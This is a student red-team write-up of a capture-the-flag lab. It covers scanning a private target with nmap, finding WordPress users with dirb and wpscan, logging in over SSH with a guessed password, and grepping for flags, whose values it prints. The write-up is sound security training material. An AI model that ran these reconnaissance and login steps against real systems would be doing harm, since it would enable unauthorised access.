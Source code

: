 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

## Exposed Services
Nmap scan results for each machine reveal the below services and OS details:  
~~~
nmap -sV 192.168.1  
~~~

[picture]

This scan identifies the services below as potential points of entry:  
  
Target 1  
OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)  
Apache httpd 2.4.10 ((Debian))  
The following vulnerabilities were identified on each target:  
- Target 1
- Weak server password
- Unsalted hashed passwords
- Unpatched WordPress software
  
 ## Exploitation
The Red Team was able to penetrate Target 1 and retrieve the following confidential data:


**flag1{b9bbcb33e11b80be759c4e844862482d}**
Tools used: dirb, wpscan  
- Using dirb we were able to find a wordpress page: 192.168.1.110/wordpress  
- From there we ran wpscan: 
~~~
wpscan –url http://192.168.1.110/wordpress
~~~
[picture]

We then found two login names: Steven and Michael  
[picture]  
By sheer luck, we guessed the password without brute force:  
~~~
- ssh michael@192.168.1.110
- Password:  michael
cd ../../var/www/html
grep -RE flag1
~~~

**flag2{fc3fd58dcdad9ab23faca6e9a36e581c}**
- Follow same steps as flag 1 to ssh into the server
~~~ 
cd ../../var/www/
grep -RE flag2
~~~


**flag3{afc01ab56b50591e7dccf93122770cd2}**
**flag4{715dea6c055b9fe3337544932f2941ce}**
Tools used: SSH, MySQL
~~~
ssh michael@192.168.1.110
Password: michael
cd /var/www/html/wordpress
~~~

